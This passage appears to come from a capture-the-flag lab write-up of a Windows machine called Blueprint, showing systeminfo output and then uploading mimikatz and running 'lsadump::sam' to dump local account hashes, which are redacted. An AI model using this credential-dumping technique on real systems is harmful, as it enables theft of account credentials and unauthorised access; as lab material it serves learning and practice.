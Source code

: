 ```php
Available Physical Memory: 1,317 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,112 MB
Virtual Memory: In Use:    983 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB2534111
                           [02]: KB976902
                           [03]: KB4012215
Network Card(s):           1 NIC(s) Installed.
                           [01]: Citrix PV Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.21.26
                                 [02]: fe80::1565:9838:2ad3:4231
```

I then had to upload mimikatz to the Windows machine. I had to first find the location of mikikatz on the machine:

![](<../../.gitbook/assets/image (131) (1).png>)

I was looking for the **mimikatz.exe** file. I then had to upload the file to the machine:

![](<../../.gitbook/assets/image (132) (1).png>)

I was then able to access **mimikatz** on the machine:

![](<../../.gitbook/assets/image (133) (1).png>)

I got the following output when I ran **lsadump::sam**:

```php
mimikatz # lsadump::sam
Domain : BLUEPRINT
SysKey : <REDACTED>
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : <REDACTED>

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: <REDACTED>

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: <REDACTED>
```
